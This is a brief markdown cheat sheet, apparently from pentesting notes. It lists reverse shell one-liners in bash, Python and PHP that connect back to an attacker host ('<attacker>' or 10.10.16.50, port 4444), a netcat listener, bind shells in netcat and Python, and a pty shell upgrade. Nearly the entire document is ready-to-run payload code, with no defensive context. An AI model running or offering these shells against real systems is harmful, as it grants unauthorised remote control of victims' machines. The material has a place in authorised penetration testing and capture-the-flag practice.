 # Reverse shell
The victim connects to the attacker machine and provides a shell.
The attacker must wait for the connection:
```
# Attacker listens
nc -lvnp 4444
```

**Bash**
```
bash -i >& /dev/tcp/<attacker>/4444 0>&1
```
or
```
bash -c 'bash -i >& /dev/tcp/10.10.16.50/4444 0>&1'
```

**Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP**
```
php -r '$sock=fsockopen("<attacker>", 4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```


# Bind shell
Opens a port on the victim. Once the attacker connects a shell is provided.
Useful if the victim can not reach the attacker.

**Bash**
```
nc -nlvp 4444 -e /bin/bash
```

**Python**
```
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",4444));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

# Upgrade shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```